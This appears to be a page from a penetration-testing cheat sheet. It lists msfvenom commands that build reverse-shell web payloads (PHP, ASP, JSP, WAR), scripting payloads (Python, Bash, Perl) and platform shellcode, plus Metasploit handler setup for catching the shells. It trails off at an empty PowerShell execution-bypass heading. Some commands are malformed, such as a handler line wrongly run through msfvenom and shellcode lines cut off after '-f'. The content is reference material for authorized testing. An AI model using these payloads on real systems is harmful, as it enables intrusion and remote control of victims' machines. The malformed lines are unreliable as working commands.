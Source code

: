 ```

### **Web Payloads**

-   msfvenom -p php/meterpreter/reverse_tcp LHOST= LPORT= -f raw > shell.php

    -   PHP
-   set payload php/meterpreter/reverse_tcp           

    -   Listener
-   cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

    -   PHP
-   msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp

    -   ASP
-   msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp

    -   JSP
-   msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war

    -   WAR

### **Scripting Payloads**

-   `msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py`
    -   Python
-   msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh

    -   Bash
-   msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl

    -   Perl

### **Shellcode**

For all shellcode see ‘msfvenom --help-formats’ for information as to
valid parameters. Msfvenom will output code that is able to be cut and
pasted in this language for your exploits.

-   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f

-   msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f

-   msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f

### **Handlers**

Metasploit handlers can be great at quickly setting up Metasploit to be
in a position to receive your incoming shells. Handlers should be in the
following format.

    exploit/multi/handler set PAYLOAD set LHOST set LPORT set ExitOnSession false exploit -j -z

An example is:

    msfvenom exploit/multi/handler -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f > exploit.extension

**Powershell** 
==============

**Execution Bypass**

```